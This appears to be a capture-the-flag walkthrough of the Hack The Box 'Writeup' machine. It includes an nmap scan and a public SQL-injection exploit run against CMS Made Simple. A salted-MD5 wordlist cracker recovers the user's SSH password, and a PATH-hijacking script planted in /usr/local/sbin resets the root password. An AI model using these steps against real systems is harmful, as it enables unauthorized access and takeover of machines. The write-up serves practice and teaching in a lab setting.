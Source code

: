 # Writeup (HACK THE BOX)

Hey guys today we will be doing Writeup from HackTheBox :) <br/>
<picturelogo>
<br/>

## Nmap Scan
```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.138 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-13 07:07 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 07:07
Completed Parallel DNS resolution of 1 host. at 07:07, 0.01s elapsed
Initiating Connect Scan at 07:07
Scanning 10.10.10.138 [1000 ports]
Discovered open port 80/tcp on 10.10.10.138
Discovered open port 22/tcp on 10.10.10.138
Completed Connect Scan at 07:07, 23.64s elapsed (1000 total ports)
Initiating Service scan at 07:07
Scanning 2 services on 10.10.10.138
Completed Service scan at 07:08, 6.72s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.138.
Initiating NSE at 07:08
Completed NSE at 07:08, 1.27s elapsed
Initiating NSE at 07:08
Completed NSE at 07:08, 0.00s elapsed
Nmap scan report for 10.10.10.138
Host is up (0.31s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.08 seconds

```
<br/>

Two services are running ..let's enumerate apache(port 80)

## Enumerating Web Server

<picture 009>
<br/>
According to the message we can see there's a dos protection waf is working which will an every ip which triggers 40x apache codes...<br/>

So rather than using dirb,gobuster,etc ...we will use burp to spider the domain ..
<br/>
<picture 010>
<br/>
Now we got a new directory named 'writeup' and i am using a really awesome extension named 'wappalyzer' which helped me to find that this directory has **cms made simple** installed...
<br/>
<picture 011>
<br/>

Now i found a blind time based sql injection whose exploit code is available 
 - [here](https://www.exploit-db.com/exploits/46635)

<br/>
<picture 007>
<br/>

```
python2 exp.py -u http://10.10.10.138/writeup/
```

I extracted the decrypt logic from the exploit and saw that before converting to md5 we have to concat it with salt so the final exploit code i created for finding password is
<br/>

```python
import hashlib

def crack_password():
    password="62def4866937f08cc13bab43bb14e6f7"
    output=""
    wordlist="rockyou.txt"
    salt="5a599ef579066807"
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        #print(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            print(output)
            break
    dict.close()


crack_password()
```

<br/>
The password extracted from the wordlist was :-  *raykayjay9*

## Logging into ssh

So now we have credentials
 - username:- *jkr*
 - password:- *raykayjay9*
<br/> 
<picture 012>
<br/>

## Privesc 

Downloading pspy64 to snoop on processes
<br/>
<picture 013>
<br/>

Now if a user logged in by ssh we will see some commands being executed in the server which can be seen by pspy64 binary output
<br/>
<picture 014>
<br/>
The command was ...

```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

if we break this command into chunks and try to understand what it's doing is setting up the PATH variable in which we can see  `/usr/local/sbin`  was at top which means it will be given highest priority while looking for any binary by the operating system so... 

```
run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

we can see  `run-parts`  is being executed and if we check the permissions of  `/usr/local/sbin`  we will notice that..

<br/>
<picture 015>
<br/>
our user is in the same group as of  */usr/local/sbin*  so that means we can write stuff inside the  *sbin*  folder, So we will write a binary in /tmp folder with our malicious payload and give it permissions to execute and will copy it to the  *sbin*  folder...
<br/>
The payload will be..

```bash
#!/bin/bash
echo "root:pwned@123"|chpasswd
```

This will change the password of root to `pwned@123` so let's try this...
<br/>
<picture 016>
<br/>
Now we have copied the payload let's quickly log out and login back to ssh and test the credentials...
<br/>
<picture 017>
<br/>

And we rooted this box ...interesting machine it was,<br/>
<br/>
<meme>
<br/>  
If you guys liked this writeup of writeup lol stay tuned :)

